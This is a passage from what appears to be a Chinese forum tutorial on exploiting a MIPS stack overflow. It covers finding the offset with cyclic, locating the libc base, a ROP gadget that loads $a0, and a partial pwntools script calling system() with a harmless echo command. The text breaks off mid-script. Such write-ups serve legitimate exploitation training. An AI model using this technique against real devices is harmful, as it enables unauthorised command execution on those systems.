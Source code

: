  

![](https://bbs.pediy.com/upload/attach/202201/642281_Y29WAG7D5ZSBBM8.png)

 

程序 crash，并且控制了 PC 寄存器。

 

于是我们开始测试溢出长度

 

![](https://bbs.pediy.com/upload/attach/202201/642281_HZVZEMV8XESA88K.png)

```
> cyclic -l 0x6161616b
40

```

下面我们就可以来寻找 gadget 打这个溢出。

Libc 基地址
--------

![](https://bbs.pediy.com/upload/attach/202201/642281_NER264XYQBQ7E7P.png)

 

`0x77eda000`

Rop
---

想要打出 system 的话，我们这里就需要来控制 `a0` 寄存器作为函数调用的参数。

 

这是找到的 gadget

```
.text:0004A604                 addiu   $s2, $sp, 0x1E8+var_F8
.text:0004A608                 move    $a0, $s2
.text:0004A60C                 move    $t9, $s0
.text:0004A610                 jalr    $t9 ; sub_49DF0

```

栈中地址存到 `s2` 寄存器中，然后 `s0` 寄存器存入 `t9` 然后调用函数。

 

所以我们的 exp 就可以写了

```
import socket
from pwn import *
context.log_level = 'debug'
context.arch = "mips"
 
Libc_Addr = 0x77eda000
system_Addr = 0x0045080
 
cmd = "echo${IFS}'Pwn!'"
 
gadget = 0x004A608
payload = cyclic(16).upper()
payload += p32(Libc_Addr+system_Addr) # S0
# p -> 0x77F24604
payload += 'BBBB' # S1
payload += p32(0x7fffe2a8) # S2
payload += 'DDDD' # S3
payload += 'EEEE'
```